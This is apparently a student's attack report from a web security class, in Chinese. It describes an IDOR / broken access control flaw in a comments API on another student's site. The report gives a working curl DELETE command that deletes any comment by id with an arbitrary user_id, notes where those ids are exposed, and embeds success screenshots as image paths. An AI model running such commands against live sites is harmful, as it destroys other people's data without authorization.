

|||
|---|---|
|**攻擊者學號**|匿名|
|**受害者學號**|r13921a20|
|**受害者網站**|[https://pleasedonthurtme.vercel.app/](https://pleasedonthurtme.vercel.app/)|
|**攻擊手段**|IDOR / Broken Access Control|
|**漏洞位置**|[https://ia-midtermweb.onrender.com/api/comments/<id>](https://ia-midtermweb.onrender.com/api/comments/<id>)|
|**攻擊指令**|`curl -X DELETE "https://ia-midtermweb.onrender.com/api/comments/$1" \` `-H "Content-Type: application/json \"` ` -d '{"user_id":"'"$2"'"}'` **Note:** Both comment and user id can be access directly at: [https://ia-midtermweb.onrender.com/api/comments](https://ia-midtermweb.onrender.com/api/comments)|

**成功攻擊截圖:**
{height=340}
<!-- {height=350} -->

{height=340}
{height=50}
{height=500}
{height=500}

